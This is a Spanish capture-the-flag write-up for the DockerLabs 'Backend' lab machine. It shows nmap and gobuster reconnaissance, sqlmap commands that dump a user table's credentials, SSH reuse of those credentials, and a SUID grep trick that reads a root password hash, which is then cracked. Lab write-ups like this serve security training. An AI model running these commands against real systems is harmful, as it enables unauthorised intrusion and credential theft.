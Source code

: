 ![image](https://github.com/user-attachments/assets/2a915931-351e-461f-8241-422f9e434a2f)---
title: Backend - DockerLabs
published: true
categories: DockerLabs
---


| OS     | Dificultad  | Creator           |
| ------ | ----------- | -------------     | 
| Linux  |  Fácil      | 4bytes            | 


# Reconocimiento

Comenzamos el proceso de reconocimiento identificando los puertos abiertos en el sistema objetivo. 
```shell
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG ports 
```
-  `-p-`: Escanea todos los puertos (1-65535).
- `--open`: Solo muestra los puertos abiertos.
- `-sS`: Realiza un escaneo SYN, que es rápido y discreto.
- `--min-rate=5000`: Envía al menos 5000 paquetes por segundo, acelerando el escaneo.
- `-n`: No realiza resolución DNS.
- `-Pn`: No realiza ping previo para determinar si el host está activo.
- `-vvv`: Muestra resultados detallados y en tiempo real.

![image](https://github.com/user-attachments/assets/c19c7d39-6cd4-4c9b-9c4e-92f19aea26f7)

Durante el escaneo, descubrimos que los siguientes puertos están activos:
- `22` (SSH)
- `80` (HTTP)

A continuación, evaluamos si los puertos abiertos presentan alguna vulnerabilidad, además de obtener más información sobre los servicios asociados a esos puertos.

```bash
nmap -p 22,80-sCV 172.17.0.2 -oG targeted
```
![image](https://github.com/user-attachments/assets/bd234e9e-017c-4e38-9ce1-33aee6a2459d)

# Exploración Web

Al acceder a la página web, observamos un panel de login.

![image](https://github.com/user-attachments/assets/cf41d47c-5035-41f4-9a2a-bd4953dd2cec)

Utilizamos `Gobuster` para realizar un reconocimiento web y explorar los directorios disponibles en el sitio.
```bash
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,doc,html,txt,img
```
- `gobuster dir` - Indica que estás utilizando la herramienta Gobuster para realizar un escaneo de directorios.
- `-u http://172.17.0.2/` Especifica la URL objetivo que deseas escanear en busca de directorios.
- `-w` Especifica que diccionario queremos usar
- `-x` Para indicar que tipo de extension queremos que nos encuentre

 ![image](https://github.com/user-attachments/assets/a972521d-6dbc-4553-8fb4-5a06249c6da2)


## Inyeccion Sql

Como hemos visto que el panel de login no proporciona más información útil, guardaremos la petición HTTP en un archivo llamado `respuesta.req` y los datos que quiero que me modifique le pondremos esto `*`.

![image](https://github.com/user-attachments/assets/0ef79e06-5155-44fd-b59b-f9484ada19b3)

A continuación, vamos a probar si es inyectable:
```bash
sqlmap -r respuesta.req -p searchitem --batch 
```
![image](https://github.com/user-attachments/assets/03841ef7-7f7d-4f08-9e6d-9fe4e2ecf42a)

Como podemos ver, la inyección es efectiva y con varios tipos de inyección. Ahora vamos a ver las bases de datos que contiene.
```bash
sqlmap -r respuesta.req -p searchitem --batch --dbs
```
![image](https://github.com/user-attachments/assets/cef9b37f-7394-4dc5-9398-398c8ae589e8)

Ya que sabemos las bases de datos, vamos a ver las tablas de esa base de datos `users`.

```bash
sqlmap -r respuesta.req -p searchitem --batch -D users --tables
```
![image](https://github.com/user-attachments/assets/de4b02d3-fb3d-461e-9ed1-a7ad7a5ebcf3)

Vemos que contiene una tabla llamada `usuarios`. Vamos a ver qué contiene.
```bash
sqlmap -r respuesta.req -p searchitem --batch -D users -T usuarios --columns
```
![image](https://github.com/user-attachments/assets/73be9dae-dc05-43a2-8ba6-231e4c6674ac)

Por ultimo veremos que contiene esas columnas
```bash
sqlmap -r respuesta.req -p searchitem --batch -D users -T usuarios -C id,username,password --dump
```
![image](https://github.com/user-attachments/assets/17d42ce7-3e29-400c-9943-7f60dbfd7c65)

Como se trata de una SQLi, luego de probarlos en la página y que ninguno nos sirva, podemos intentar probar si alguno es válido para el puerto 22 de SSH. Por lo que simplemente probamos uno por uno, ya que son tres, y vemos que el usuario `pepe` sí tiene acceso.

![image](https://github.com/user-attachments/assets/498775ec-289d-4204-9e63-daef0f183f1b)

# Escalada de privilegios.

Vamos a hacer lo de siempre: empezaremos viendo si podemos ejecutar el comando `sudo -l`.

![image](https://github.com/user-attachments/assets/64ad3de5-72f7-4133-ab37-d9016df87d8d)

Al parecer no podemos. Lo que haremos será buscar en el SUID.
```bash
find / -perm -4000 2>/dev/null
```
![image](https://github.com/user-attachments/assets/082fdc23-3de3-400d-88d9-5e8b6ba07164)

Como vemos, los binario `ls` y `grep` están en el SUID, por lo que podríamos intentar leer la `home` de `root` usando `ls`. 
```bash
/usr/bin/ls root
```
![image](https://github.com/user-attachments/assets/3ec89a8d-58f0-4ee8-a051-87d4068adbd0)

Vemos que contiene un archivo llamado `pass.hash`. Como no podemos usar `cat`, usaremos el binario `grep` para ver el contenido del mismo. 
```bash
LFILE=/root/pass.hash
/usr/bin/grep '' $LFILE
```
![image](https://github.com/user-attachments/assets/4bfe7f58-79b8-4515-9d5a-65f7280ebc92)

Como por el nombre nos dice que es un hash, usaremos la página [Crackstation](https://crackstation.net/) por si desde allí obtenemos lo que contiene la hash.

![image](https://github.com/user-attachments/assets/48bb451a-266d-4764-b44d-92ce9a969e8b)

Ya tenemos la contraseña en texto plano. Ahora solo hace falta probarla con `root` para ver si tenemos acceso.
```bash
su root
```

¡Ya somos root!

![image](https://github.com/user-attachments/assets/30d2c010-e489-4c07-bbbb-33dcad8fb6b4)


